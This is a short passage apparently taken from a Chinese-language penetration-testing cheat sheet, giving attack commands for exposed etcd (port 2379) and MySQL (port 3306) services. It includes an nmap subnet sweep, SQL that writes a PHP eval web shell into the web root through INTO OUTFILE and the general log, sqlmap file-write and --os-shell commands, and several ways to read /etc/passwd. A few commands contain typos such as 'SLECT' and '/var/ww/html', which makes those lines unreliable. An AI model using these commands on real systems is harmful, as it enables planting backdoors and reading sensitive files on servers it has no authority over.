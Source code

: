 ## 2379 etcd

```bash
# 未授权访问
# etcd-manager - https://etcdmanager.io/
使用工具配置服务主机信息后连接


# C 段服务扫描
nmap -p 2379 IP-CIRD -T4 -n -Pn -oG - | grep open
```

## 3306 MySQL

```bash
# 文件写入
# 查询拥有写入权限的路径, 为空则代表可以写入任意到路径, 5.7 版本以前默认为空
SHOW GLOBAL VARIABLES LIKE '%secure_file_priv%';

# INTO OUTFILE 语句写入文件
SELECT '<?php @eval($_REQUEST['exec']);?>' INTO OUTFILE '/var/ww/html/phpinfo.php';

# 日志功能写入文件
SHOW VARIABLES LIKE '%general%';
SET GLOBAL general_log = "ON";
SET GLOBAL general_log_file="/var/www/html/shell.php";
SLECT '<?php phpinfo(); ?>';

# sqlmap 写入文件
sqlmap -u "URL" --file-write="/LOCAL/PATH/FILE" --file-dest="/REMOTE/PATH/FILE"


# 文件读取
# LOAD_FILE 语句读取文件
SELECT LOAD_FILE( "/etc/passwd" );

# LOAD DATA INFILE ... INTO TABLE 语句读取文件
USE mysql;
LOAD DATA INFILE '/etc/passwd' INTO TABLE user;
SELECT * FROM user;

# SYSTEM 语句读取文件 (MySQL version 5.x)
$ mysql -h$HOST -u$USNM -p$PSWD
mysql> SYSTEM cat /etc/passwd;


# GetShell
# sqlmap GetShell (需要知道网站绝对路径)
sqlmap -u "URL" --os-shell
```
